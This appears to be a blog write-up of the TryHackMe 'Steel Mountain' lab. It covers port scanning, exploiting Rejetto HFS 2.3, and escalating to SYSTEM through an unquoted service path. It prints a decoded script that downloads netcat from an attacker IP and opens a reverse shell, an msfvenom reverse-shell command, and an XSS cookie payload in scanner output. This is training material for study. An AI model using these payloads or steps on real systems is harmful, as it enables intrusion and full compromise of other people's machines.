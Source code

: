 ```yaml
---
title: Steel Mountain
date: 2024-02-13 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Steel Mountain is a vulnerable machine from [TryHackMe](https://tryhackme.com) that requires some standard enumeration with setting up and running a couple of exploits. After you find the vulnerable services, the exploits and path to foothold and privilege escalation are straightforward. 

## Nmap Scan
* nmap -T4 -p- `target ip`
    * PORT      STATE SERVICE
    * 80/tcp    open  http
    * 135/tcp   open  msrpc
    * 139/tcp   open  netbios-ssn
    * 445/tcp   open  microsoft-ds
    * 3389/tcp  open  ms-wbt-server
    * 5985/tcp  open  wsman
    * 8080/tcp  open  http-proxy
    * 47001/tcp open  winrm
    * 49152/tcp open  unknown
    * 49153/tcp open  unknown
    * 49154/tcp open  unknown
    * 49155/tcp open  unknown
    * 49156/tcp open  unknown
    * 49169/tcp open  unknown
    * 49170/tcp open  unknown
* nmap -T4 -sV -A -p 135,139,445,3389,8080 `target ip`
    * 135/tcp  open  msrpc        Microsoft Windows RPC
    * 139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
    * 445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    * 3389/tcp open  ssl          Microsoft SChannel TLS
    * 5985/tcp  filtered wsman
    * 47001/tcp open     http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    * 8080/tcp open http HttpFileServer httpd 2.3
[Rejetto HFS](https://www.rejetto.com/hfs/)

Most of the ports open aren't terrible helpful to use, the unknowns we can ignore here. The most interesting are typically the smb and http services. Checking out the smb services didn't get me anywhere at all, as there doesn't seem to be any access open over smb from what I could find. 

## Checking out the Site
We did find a login page on the site. There doesn't seem to be much we can do here without credentials:
* http://10.10.243.11:8080/~login
* Tried the standard admin:admin, didn't work. 

## Enumerating the Web Site
Nikto Scan
> nikto -h http://10.10.243.11:8080
>> `OSVDB-38019: /?mod=<script>alert(document.cookie)</script>&op=browse: Sage 1.0b3 is vulnerable to Cross Site Scripting (XSS).`

Dirbuster
> dirbuster dir -u http://10.10.243.11:8080/ -w /usr/share/wordlists/dirb/common.txt 
>> No interesting directories found on the site.

## Vulnerable Service
We do see this is Rejetto HttpFileServer 2.3 version. This has a vulnerability that exists both in `Metasploit` and a public python script. We can use searchsploit to find the public exploit: "searchsploit Rejetto 2.3"
* More than one file may come up in your search, and I actually found a different script by mistake at first: `49125.py`
* Took some attempts for me to figure out this is the wrong exploit, and instead the target public exploit is: `39161.py`
    * #EDB Note: You need to be using a web server hosting netcat (`http://<attackers_ip>:80/nc.exe`).

Decoding some of the script, we can easily understand the intent: 
```java
{
ip_addr = "attacker ip" #local IP address
local_port = "listening port" # Local Port number

dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://" ip_addr "/nc.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with

vbs2 = cscript.exe C:\Users\Public\script.vbs
vbs3 = "C:\Users\Public\nc.exe -e cmd.exe " ip_addr " " local_port
}
```
After URL Decoding the portions of the script that are encoded, we can see this script intends to utilize vbs script creation in order to reach back to our attacker machine, grab netcat, and then use netcat to reach back to our attacker IP and Port that is stagged on our end with netcat. 

> If we have our listener stagged properly on our attacker box with netcat, we will get a connection back to our attacker machine. 

> Success! We are on the machine as the user bill, and can grab user.txt. Now we need to enumerate the box to find our privilege escalation path. 

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/steel_mountain/steelmnuser.png?raw=true)

## Local Enumeration
After doing a file transfer with powershell, we let the x86 version of winpeas run to see what vulnerabilities exist, and take a look through to see what stands out the most. We want to find the low hanging fruit. 

* Basic enumeration items we find:
    * This is a Windows Sever 2012 R2 Data Center
    * Build number 9600
    * All Access to some Named Pipes, with one that has WriteData/Create File access
    * 3 users, Administrator, Guest, and Bill; Guest is disabled
    * There is a Public directory, and we have write/create file access there
    * No interesting files for us, we picked up our nc.exe and the hfs.exe files

Services that are non-microsoft, seems to be:
- Advanced System Care; AdvancedSystemCareService9.
- Amazon Agent.
- IEETwCollectorService.
- IObitUnSvr; no quotes and space detected.
- LiveUpdateSvc; no quotes and space detected.
- Can modify installed programs, seems to be related to those IOBit pua’s.

>Looks like we can write and create files inside of windows tasks and system32 tasks.
>> Found Bills password: PMBAf5KhZAxVhvqb
>>> Ntlmv2 hash was found, not super useful in this context as we aren't looking to pivot from this box.

At this point, the unquoted service path vulnerability seems to be the best choice to try. We need to craft a reverse shell payload to replace a process in one of the file path's are has a space, and that didn't have quotes around it. 

## Crafting our payload
Since `Advanced System Care` didn't have quotes, we throw a reverse shell into this file path as `Advanced.exe`. After we move the file into the path, we need to then stop and start the service that runs the files out of that path, which is service `AdvancedSystemCareService9`.

> Craft payload with `msfvenom`:
>> msfvenom -p windows/shell_reverse_tcp LHOST=`<ip>` LPORT=`4545` -f exe > Advanced.exe

We transfer the payload over, put it in the correct path, and use sc start/stop to stop and start the service. Once this is done, we get our shell back, and are now `NT Authority\System`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/steel_mountain/steelmnroot.png?raw=true)
